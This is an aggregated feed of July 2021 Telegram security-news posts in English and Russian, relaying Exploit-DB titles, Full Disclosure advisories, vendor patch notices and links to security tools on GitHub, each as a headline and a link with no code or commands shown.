`2021-07-27 09:49:52`

<blockquote>
ATLASSIAN - CVE-2020-36239 - Jira Data Center and Jira Service Management Data Center
https://seclists.org/fulldisclosure/2021/Jul/62

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/62">
https://seclists.org/fulldisclosure/2021/Jul/62
</a>
</td></tr></table>

---

# defcon_news
`2021-07-27 09:49:51`

<blockquote>
Potential symlink attack in python3 __pycache__
https://seclists.org/fulldisclosure/2021/Jul/61

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/61">
https://seclists.org/fulldisclosure/2021/Jul/61
</a>
</td></tr></table>

---

# exploitex
`2021-07-27 09:27:00`

* https://telegra.ph/file/9b75dc37f7d93ee6775f2.jpg
* https://github.com/reacherhq/check-if-email-exists

<blockquote>
​Как проверить существование электронной почты

В бесконечном потоке спам рассылок, которые преследуют едва ли не каждого пользователя интернета, бывает сложно отличить письма реальных людей от рекламных уведомлений мошеннических ботов-однодневок.

В облегчении фильтрации отправителей может помочь демонстрационный проект Reacher, которой поможет проверить, существует ли тот или иной адрес электронной почты и принимает ли он обратные сообщения, не отправляя ему никаких писем.

Но на этом возможности сервиса не заканчиваются: он так же проверит предоставляется ли электронный адрес поставщиком одноразовых почт, нет ли пароля и логина аккаунта в открытых базах, если ли у электронного профиля аватарка и расскажет правильно ли составлен адрес синтаксически.

&#35;сайт
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/file/9b75dc37f7d93ee6775f2.jpg">
https://telegra.ph/file/9b75dc37f7d93ee6775f2.jpg
</a>
</td></tr></table>

---

# defcon_news
`2021-07-27 07:49:42`

<blockquote>
Apple Patches for CVE-2021-30807, (Tue, Jul 27th)
https://isc.sans.edu/diary/rss/27678

via SANS Internet Storm Center, InfoCON: green
</blockquote>

<table><tr><td><b>→</b><a href="https://isc.sans.edu/diary/rss/27678">
https://isc.sans.edu/diary/rss/27678
</a>
<blockquote>
Apple Patches for CVE-2021-30807, Author: Yee Ching Tok
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-26 14:49:30`

<blockquote>
[webapps] XOS Shop 1.0.9 - 'Multiple' Arbitrary File Deletion (Authenticated)
https://www.exploit-db.com/exploits/50155

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50155?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50155?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
XOS Shop 1.0.9 - 'Multiple' Arbitrary File Deletion (Authenticated).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-26 13:49:30`

<blockquote>
[webapps] NoteBurner 2.35 - Denial Of Service (DoS) (PoC)
https://www.exploit-db.com/exploits/50154

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50154?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50154?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
NoteBurner 2.35 - Denial Of Service (DoS) (PoC).. webapps exploit for Windows platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-26 13:49:29`

<blockquote>
[dos] Leawo Prof. Media 11.0.0.1 - Denial of Service (DoS) (PoC)
https://www.exploit-db.com/exploits/50153

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50153?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50153?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Leawo Prof. Media 11.0.0.1 - Denial of Service (DoS) (PoC).. dos exploit for Windows platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-26 12:49:16`

<blockquote>
[webapps] Elasticsearch ECE 7.13.3 - Anonymous Database Dump
https://www.exploit-db.com/exploits/50152

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50152">
https://www.exploit-db.com/exploits/50152
</a>
<blockquote>
Elasticsearch ECE 7.13.3 - Anonymous Database Dump. CVE-2021-22146 . webapps exploit for Multiple platform
</blockquote>
</td></tr></table>

---

# freedomf0x
`2021-07-26 09:24:18`

<blockquote>
&#35;cobaltstrike
https://github.com/capt-meelo/Beaconator
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/capt-meelo/Beaconator">
https://github.com/capt-meelo/Beaconator
</a>
<blockquote>
A beacon generator using Cobalt Strike and a variety of tools. - GitHub - capt-meelo/Beaconator: A beacon generator using Cobalt Strike and a variety of tools.
</blockquote>
</td></tr></table>

---

# cyberoffru
`2021-07-23 23:20:00`

<blockquote>
Выложили халявный дипфейк генератор лиц в реальном времени с вебки. Ждём волну необычных историй из корпоративных созвонов по скайпу и зуму.
https://github.com/iperov/DeepFaceLive
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/iperov/DeepFaceLive">
https://github.com/iperov/DeepFaceLive
</a>
<blockquote>
Real-time face swap for PC streaming or video calls - GitHub - iperov/DeepFaceLive: Real-time face swap for PC streaming or video calls
</blockquote>
</td></tr></table>

---

# freedomf0x
`2021-07-23 16:36:00`

<blockquote>
&#35;threatleak 

https://www.sentinelone.com/blog/cve-2021-3122-how-we-caught-a-threat-actor-exploiting-ncr-pos-zero-day/
</blockquote>

<table><tr><td><b>→</b><a href="https://www.sentinelone.com/blog/cve-2021-3122-how-we-caught-a-threat-actor-exploiting-ncr-pos-zero-day/">
https://www.sentinelone.com/blog/cve-2021-3122-how-we-caught-a-threat-actor-exploiting-ncr-pos-zero-day/
</a>
<blockquote>
Read how this IR team discovered a zero day in popular Aloha Point of Sale software while engaging with a threat actor compromising a live system.
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-23 15:49:52`

<blockquote>
[webapps] Microsoft SharePoint Server 2019 - Remote Code Execution (2)
https://www.exploit-db.com/exploits/50151

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50151">
https://www.exploit-db.com/exploits/50151
</a>
<blockquote>
Microsoft SharePoint Server 2019 - Remote Code Execution (2). CVE-2020-1147 . webapps exploit for ASPX platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-23 11:49:26`

<blockquote>
[webapps] WordPress Plugin Simple Post 1.1 - 'Text field' Stored Cross-Site Scripting (XSS)
https://www.exploit-db.com/exploits/50150

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50150">
https://www.exploit-db.com/exploits/50150
</a>
<blockquote>
WordPress Plugin Simple Post 1.1 - 'Text field' Stored Cross-Site Scripting (XSS).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-23 11:49:25`

<blockquote>
[webapps] ElasticSearch 7.13.3 - Memory disclosure
https://www.exploit-db.com/exploits/50149

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50149">
https://www.exploit-db.com/exploits/50149
</a>
<blockquote>
ElasticSearch 7.13.3 - Memory disclosure. CVE-2021-22145 . webapps exploit for Multiple platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-23 11:49:24`

<blockquote>
APPLE-SA-2021-07-21-7 Safari 14.1.2
https://seclists.org/fulldisclosure/2021/Jul/60

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/60">
https://seclists.org/fulldisclosure/2021/Jul/60
</a>
</td></tr></table>

---

# defcon_news
`2021-07-23 11:49:23`

<blockquote>
APPLE-SA-2021-07-21-6 tvOS 14.7
https://seclists.org/fulldisclosure/2021/Jul/59

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/59">
https://seclists.org/fulldisclosure/2021/Jul/59
</a>
</td></tr></table>

---

# defcon_news
`2021-07-23 10:49:29`

<blockquote>
APPLE-SA-2021-07-21-5 watchOS 7.6
https://seclists.org/fulldisclosure/2021/Jul/58

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/58">
https://seclists.org/fulldisclosure/2021/Jul/58
</a>
</td></tr></table>

---

# defcon_news
`2021-07-23 10:49:28`

<blockquote>
APPLE-SA-2021-07-21-4 Security Update 2021-005 Mojave
https://seclists.org/fulldisclosure/2021/Jul/57

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/57">
https://seclists.org/fulldisclosure/2021/Jul/57
</a>
</td></tr></table>

---

# defcon_news
`2021-07-23 10:49:28`

<blockquote>
APPLE-SA-2021-07-21-3 Security Update 2021-004 Catalina
https://seclists.org/fulldisclosure/2021/Jul/56

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/56">
https://seclists.org/fulldisclosure/2021/Jul/56
</a>
</td></tr></table>

---

# defcon_news
`2021-07-23 10:49:24`

<blockquote>
APPLE-SA-2021-07-21-2 macOS Big Sur 11.5
https://seclists.org/fulldisclosure/2021/Jul/55

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/55">
https://seclists.org/fulldisclosure/2021/Jul/55
</a>
</td></tr></table>

---

# defcon_news
`2021-07-23 10:49:23`

<blockquote>
APPLE-SA-2021-07-21-1 iOS 14.7 and iPadOS 14.7
https://seclists.org/fulldisclosure/2021/Jul/54

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/54">
https://seclists.org/fulldisclosure/2021/Jul/54
</a>
</td></tr></table>

---

# defcon_news
`2021-07-23 10:49:22`

<blockquote>
ipython3 may execute code from the current working directory
https://seclists.org/fulldisclosure/2021/Jul/53

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/53">
https://seclists.org/fulldisclosure/2021/Jul/53
</a>
</td></tr></table>

---

# defcon_news
`2021-07-23 10:49:21`

<blockquote>
Cross-site Scripting vulnerability in Ampache 4.4.2
https://seclists.org/fulldisclosure/2021/Jul/52

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/52">
https://seclists.org/fulldisclosure/2021/Jul/52
</a>
</td></tr></table>

---

# defcon_news
`2021-07-23 10:49:20`

<blockquote>
CFP for Hardwear.io Netherlands 2021
https://seclists.org/fulldisclosure/2021/Jul/51

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/51">
https://seclists.org/fulldisclosure/2021/Jul/51
</a>
</td></tr></table>

---

# freedomf0x
`2021-07-23 09:05:29`

<blockquote>
https://github.com/DarkCoderSc/inno-shellcode-example/
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/DarkCoderSc/inno-shellcode-example/">
https://github.com/DarkCoderSc/inno-shellcode-example/
</a>
<blockquote>
Run shellcode through InnoSetup code engine. Contribute to DarkCoderSc/inno-shellcode-example development by creating an account on GitHub.
</blockquote>
</td></tr></table>

---

# freedomf0x
`2021-07-23 05:45:34`

<blockquote>
&#35;threatleak

https://blog.qualys.com/vulnerabilities-threat-research/2021/07/20/sequoia-a-local-privilege-escalation-vulnerability-in-linuxs-filesystem-layer-cve-2021-33909
</blockquote>

<table><tr><td><b>→</b><a href="https://blog.qualys.com/vulnerabilities-threat-research/2021/07/20/sequoia-a-local-privilege-escalation-vulnerability-in-linuxs-filesystem-layer-cve-2021-33909">
https://blog.qualys.com/vulnerabilities-threat-research/2021/07/20/sequoia-a-local-privilege-escalation-vulnerability-in-linuxs-filesystem-layer-cve-2021-33909
</a>
<blockquote>
The Qualys Research Team has discovered a size_t-to-int type conversion vulnerability in the Linux Kernel’s filesystem layer affecting most Linux operating systems. Any unprivileged user can gain root…
</blockquote>
</td></tr></table>

---

# freedomf0x
`2021-07-23 04:03:36`

<blockquote>
https://github.com/gentilkiwi/mimikatz/releases
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/gentilkiwi/mimikatz/releases">
https://github.com/gentilkiwi/mimikatz/releases
</a>
<blockquote>
A little tool to play with Windows security. Contribute to gentilkiwi/mimikatz development by creating an account on GitHub.
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-23 02:49:14`

<blockquote>
CVE-2021-36934 temporary mitigation in commandprompt.
https://www.reddit.com/r/netsec/comments/opctl7/cve202136934_temporary_mitigation_in_commandprompt/

via /r/netsec - Information Security News &amp; Discussion
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/opctl7/cve202136934_temporary_mitigation_in_commandprompt/">
https://www.reddit.com/r/netsec/comments/opctl7/cve202136934_temporary_mitigation_in_commandprompt/
</a>
<blockquote>
Posted in r/netsec by u/nindustries • 2 points and 1 comment
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-23 02:49:10`

<blockquote>
AST-2021-009: pjproject/pjsip: crash when SSL socket destroyed during handshake
https://seclists.org/fulldisclosure/2021/Jul/50

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/50">
https://seclists.org/fulldisclosure/2021/Jul/50
</a>
</td></tr></table>

---

# defcon_news
`2021-07-23 02:49:09`

<blockquote>
AST-2021-008: Remote crash when using IAX2 channel driver
https://seclists.org/fulldisclosure/2021/Jul/49

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/49">
https://seclists.org/fulldisclosure/2021/Jul/49
</a>
</td></tr></table>

---

# defcon_news
`2021-07-23 02:49:08`

<blockquote>
AST-2021-007: Remote Crash Vulnerability in PJSIP channel driver
https://seclists.org/fulldisclosure/2021/Jul/48

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/48">
https://seclists.org/fulldisclosure/2021/Jul/48
</a>
</td></tr></table>

---

# defcon_news
`2021-07-21 23:49:55`

<blockquote>
Talkin’ About Infosec News – 7/21/2021
https://www.blackhillsinfosec.com/talkin-about-infosec-news-7-21-2021/

via Black Hills Information Security
</blockquote>

<table><tr><td><b>→</b><a href="https://www.blackhillsinfosec.com/talkin-about-infosec-news-7-21-2021/">
https://www.blackhillsinfosec.com/talkin-about-infosec-news-7-21-2021/
</a>
<blockquote>
Originally Aired on July 19, 2021 Articles discussed in this episode: 00:00 – BHIS | Talkin’ Bout News 2021-07-19 02:18 – Story &#35; 1: https://github.com/fail2ban/fail2ban/security/advisories/GHSA-m985-3f3v-cwmm 13:15 – Story &#35; 2: https://threatpost.com/attackers-target-florida-condo-collapse-victims/167917/ 16:00 – Story &#35; 3: https://citizenlab.ca/2021/07/hooking-candiru-another-mercenary-spyware-vendor-comes-into-focus/ 34:41 – Story &#35; 4: https://thehackernews.com/2021/07/turns-out-that-low-risk-ios-wi-fi.html 42:36 – Story &#35; 5: https://thehackernews.com/2021/07/chinas-new-law-requires-researchers-to.html 53:13 – [Post]Show Banter™ — Can’t […]
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-21 17:49:25`

<blockquote>
&quot;Summer of SAM&quot;: Microsoft Releases Guidance for CVE-2021-36934, (Wed, Jul 21st)
https://isc.sans.edu/diary/rss/27656

via SANS Internet Storm Center, InfoCON: green
</blockquote>

<table><tr><td><b>→</b><a href="https://isc.sans.edu/diary/rss/27656">
https://isc.sans.edu/diary/rss/27656
</a>
<blockquote>
&quot;Summer of SAM&quot;: Microsoft Releases Guidance for CVE-2021-36934, Author: Johannes Ullrich
</blockquote>
</td></tr></table>

---

# phd_soc
`2021-07-21 15:28:14`

<blockquote>
Привет всем! Мы подготовили небольшую аналитику за Q4 2020. https://twitter.com/kl_secservices/status/1417786705688637440?s&#61;21
</blockquote>

<table><tr><td><b>→</b><a href="https://twitter.com/kl_secservices/status/1417786705688637440?s=21">
https://twitter.com/kl_secservices/status/1417786705688637440?s=21
</a>
<blockquote>
Dive into &#35;blueteam metrics and adversarial TTPs from our &#35;MDR &#35;threathunting operations github.com/klsecservices/…. More details securelist.com/managed-detect…
</blockquote>
</td></tr></table>

---

# FinSecurity
`2021-07-21 12:20:41`

<blockquote>
Написал для себя и руководства такую визуальную вещь - https://github.com/diev/WhoCan - наглядно видно, КТО_МОЖЕТ видеть что-то (черненьким) и испортить (красненьким) на сети AD. И почему - что доступ настроен персонально или через какую группу так выходит.
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/diev/WhoCan">
https://github.com/diev/WhoCan
</a>
<blockquote>
Display ACL rights. Contribute to diev/WhoCan development by creating an account on GitHub.
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-21 12:06:17`

<blockquote>
[webapps] CSZ CMS 1.2.9 - 'Multiple' Arbitrary File Deletion
https://www.exploit-db.com/exploits/50148

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50148">
https://www.exploit-db.com/exploits/50148
</a>
<blockquote>
CSZ CMS 1.2.9 - 'Multiple' Arbitrary File Deletion.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-21 12:06:15`

<blockquote>
[webapps] KevinLAB BEMS 1.0 - File Path Traversal Information Disclosure (Authenticated)
https://www.exploit-db.com/exploits/50147

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50147?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50147?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
KevinLAB BEMS 1.0 - File Path Traversal Information Disclosure (Authenticated).. webapps exploit for Hardware platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-21 12:06:14`

<blockquote>
[webapps] KevinLAB BEMS 1.0 - Unauthenticated SQL Injection / Authentication Bypass
https://www.exploit-db.com/exploits/50146

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50146?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50146?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
KevinLAB BEMS 1.0 - Unauthenticated SQL Injection / Authentication Bypass.. webapps exploit for Hardware platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-21 12:06:12`

<blockquote>
[remote] KevinLAB BEMS 1.0 - Undocumented Backdoor Account
https://www.exploit-db.com/exploits/50145

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50145?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50145?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
KevinLAB BEMS 1.0 - Undocumented Backdoor Account.. remote exploit for Hardware platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-21 11:06:41`

<blockquote>
Root-уязвимость в ядре Linux и отказ в обслуживании в systemd
https://www.opennet.ru/opennews/art.shtml?num&#61;55528

via OpenNews.opennet.ru: Проблемы безопасности
</blockquote>

<table><tr><td><b>→</b><a href="https://www.opennet.ru/opennews/art.shtml?num=55528">
https://www.opennet.ru/opennews/art.shtml?num=55528
</a>
<blockquote>
Исследователи безопасности из компании Qualys раскрыли детали двух уязвимостей, затрагивающих ядро Linux и системный менеджер systemd. Уязвимость в ядре (CVE-2021-33909) позволяет локальному пользователю добиться выполнения кода с правами root через манипуляции с каталогами большой вложенности.
</blockquote>
</td></tr></table>

---

# sysadm_in_channel
`2021-07-21 05:13:34`

<blockquote>
Sequoia: A Local Privilege Escalation Vulnerability in Linux’s Filesystem Layer (CVE-2021-33909) 

https://blog.qualys.com/vulnerabilities-threat-research/2021/07/20/sequoia-a-local-privilege-escalation-vulnerability-in-linuxs-filesystem-layer-cve-2021-33909
</blockquote>

<table><tr><td><b>→</b><a href="https://blog.qualys.com/vulnerabilities-threat-research/2021/07/20/sequoia-a-local-privilege-escalation-vulnerability-in-linuxs-filesystem-layer-cve-2021-33909">
https://blog.qualys.com/vulnerabilities-threat-research/2021/07/20/sequoia-a-local-privilege-escalation-vulnerability-in-linuxs-filesystem-layer-cve-2021-33909
</a>
<blockquote>
The Qualys Research Team has discovered a size_t-to-int type conversion vulnerability in the Linux Kernel’s filesystem layer affecting most Linux operating systems. Any unprivileged user can gain root…
</blockquote>
</td></tr></table>

---

# sysadm_in_channel
`2021-07-21 05:11:11`

<blockquote>
CVE-2021-22555: Turning \x00\x00 into 10000$ | security-research
https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
</blockquote>

<table><tr><td><b>→</b><a href="https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html">
https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
</a>
<blockquote>
This project hosts security advisories and their accompanying proof-of-concepts related to research conducted at Google which impact non-Google owned code.
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-20 23:06:28`

<blockquote>
CVE-2021-3438: 16 Years In Hiding - Millions of Printers Worldwide Vulnerable
https://www.reddit.com/r/netsec/comments/oo4lxt/cve20213438_16_years_in_hiding_millions_of/

via /r/netsec - Information Security News &amp; Discussion
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/oo4lxt/cve20213438_16_years_in_hiding_millions_of/">
https://www.reddit.com/r/netsec/comments/oo4lxt/cve20213438_16_years_in_hiding_millions_of/
</a>
<blockquote>
Posted in r/netsec by u/Cyberthere • 149 points and 10 comments
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-20 23:06:24`

<blockquote>
Sequoia: A Local Privilege Escalation Vulnerability in Linux’s Filesystem Layer (CVE-2021-33909) | Qualys Security Blog
https://www.reddit.com/r/netsec/comments/oo2azl/sequoia_a_local_privilege_escalation/

via /r/netsec - Information Security News &amp; Discussion
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/oo2azl/sequoia_a_local_privilege_escalation/">
https://www.reddit.com/r/netsec/comments/oo2azl/sequoia_a_local_privilege_escalation/
</a>
<blockquote>
44 votes and 6 comments so far on Reddit
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-20 20:07:02`

<blockquote>
Backdoor.Win32.IRCBot.gen / Unauthenticated Remote Command Execution
https://seclists.org/fulldisclosure/2021/Jul/47

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/47">
https://seclists.org/fulldisclosure/2021/Jul/47
</a>
</td></tr></table>

---

# defcon_news
`2021-07-20 20:07:01`

<blockquote>
Trojan-Spy.Win32.SpyEyes.hqd / Insecure Permissions
https://seclists.org/fulldisclosure/2021/Jul/46

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/46">
https://seclists.org/fulldisclosure/2021/Jul/46
</a>
</td></tr></table>

---

# defcon_news
`2021-07-20 20:06:57`

<blockquote>
Trojan-Spy.Win32.SpyEyes.abdb / Insecure Permissions
https://seclists.org/fulldisclosure/2021/Jul/45

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/45">
https://seclists.org/fulldisclosure/2021/Jul/45
</a>
</td></tr></table>

---

# defcon_news
`2021-07-20 20:06:56`

<blockquote>
Backdoor.Win32.Agent.bjev / Insecure Permissions
https://seclists.org/fulldisclosure/2021/Jul/44

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/44">
https://seclists.org/fulldisclosure/2021/Jul/44
</a>
</td></tr></table>

---

# defcon_news
`2021-07-20 20:06:55`

<blockquote>
Backdoor.Win32.IRCBot.gen / Weak Hardcoded Password
https://seclists.org/fulldisclosure/2021/Jul/43

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/43">
https://seclists.org/fulldisclosure/2021/Jul/43
</a>
</td></tr></table>

---

# defcon_news
`2021-07-20 20:06:55`

<blockquote>
HEUR.Backdoor.Win32.Generic / Unauthenticated Open Proxy
https://seclists.org/fulldisclosure/2021/Jul/42

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/42">
https://seclists.org/fulldisclosure/2021/Jul/42
</a>
</td></tr></table>

---

# defcon_news
`2021-07-20 20:06:52`

<blockquote>
HEUR.Backdoor.Win32.Generic / Unauthenticated Open Proxy
https://seclists.org/fulldisclosure/2021/Jul/41

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/41">
https://seclists.org/fulldisclosure/2021/Jul/41
</a>
</td></tr></table>

---

# defcon_news
`2021-07-20 20:06:51`

<blockquote>
Re: New Release: UFONet v1.7 - &quot;KRäK!eN&quot;...
https://seclists.org/fulldisclosure/2021/Jul/40

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/40">
https://seclists.org/fulldisclosure/2021/Jul/40
</a>
</td></tr></table>

---

# defcon_news
`2021-07-20 20:06:50`

<blockquote>
Multiple vulnerabilities in Dell OpenManage Enterprise
https://seclists.org/fulldisclosure/2021/Jul/39

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/39">
https://seclists.org/fulldisclosure/2021/Jul/39
</a>
</td></tr></table>

---

# defcon_news
`2021-07-20 20:06:48`

<blockquote>
Open-Xchange Security Advisory 2021-07-19
https://seclists.org/fulldisclosure/2021/Jul/37

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/37">
https://seclists.org/fulldisclosure/2021/Jul/37
</a>
</td></tr></table>

---

# defcon_news
`2021-07-20 20:06:48`

<blockquote>
Re: [FD] New Release: UFONet v1.7 - &quot;KRäK!eN&quot;...
https://seclists.org/fulldisclosure/2021/Jul/38

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jul/38">
https://seclists.org/fulldisclosure/2021/Jul/38
</a>
</td></tr></table>

---

# sysadm_in_channel
`2021-07-20 19:23:34`

<blockquote>
CVE-2021-3438: 16 Years In Hiding - Millions of Printers Worldwide Vulnerable

https://labs.sentinelone.com/cve-2021-3438-16-years-in-hiding-millions-of-printers-worldwide-vulnerable/
</blockquote>

<table><tr><td><b>→</b><a href="https://labs.sentinelone.com/cve-2021-3438-16-years-in-hiding-millions-of-printers-worldwide-vulnerable/">
https://labs.sentinelone.com/cve-2021-3438-16-years-in-hiding-millions-of-printers-worldwide-vulnerable/
</a>
<blockquote>
A high severity flaw in HP, Samsung and Xerox printer drivers has existed since 2005 and could lead to an escalation of privilege.
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-20 13:06:13`

<blockquote>
[webapps] Webmin 1.973 - 'run.cgi' Cross-Site Request Forgery (CSRF)
https://www.exploit-db.com/exploits/50144

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50144?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50144?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Webmin 1.973 - 'run.cgi' Cross-Site Request Forgery (CSRF). CVE-2021-31761 . webapps exploit for Linux platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-20 13:06:12`

<blockquote>
[webapps] WordPress Plugin KN Fix Your Title 1.0.1 - 'Separator' Stored Cross-Site Scripting (XSS)
https://www.exploit-db.com/exploits/50143

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50143?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50143?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
WordPress Plugin KN Fix Your Title 1.0.1 - 'Separator' Stored Cross-Site Scripting (XSS).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# freedomf0x
`2021-07-20 10:06:17`

<blockquote>
https://github.com/mvt-project/mvt
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/mvt-project/mvt">
https://github.com/mvt-project/mvt
</a>
<blockquote>
MVT (Mobile Verification Toolkit) helps conducting forensics of mobile devices in order to find signs of a potential compromise. - GitHub - mvt-project/mvt: MVT (Mobile Verification Toolkit) helps ...
</blockquote>
</td></tr></table>

---

# freedomf0x
`2021-07-20 02:22:45`

<blockquote>
https://github.com/fosscord
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/fosscord">
https://github.com/fosscord
</a>
<blockquote>
Fosscord is a free open source selfhostable discord compatible chat, voice and video platform - Fosscord (former Discord Open Source)
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-20 00:06:51`

<blockquote>
Ian Dunn: Multiple server ssh usernames leaked in your github repository
https://vulners.com/hackerone/H1:1265225?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss

via Vulners
</blockquote>

<table><tr><td><b>→</b><a href="https://vulners.com/hackerone/H1:1265225?utm_source=rss&utm_medium=rss&utm_campaign=rss">
https://vulners.com/hackerone/H1:1265225?utm_source=rss&utm_medium=rss&utm_campaign=rss
</a>
<blockquote>
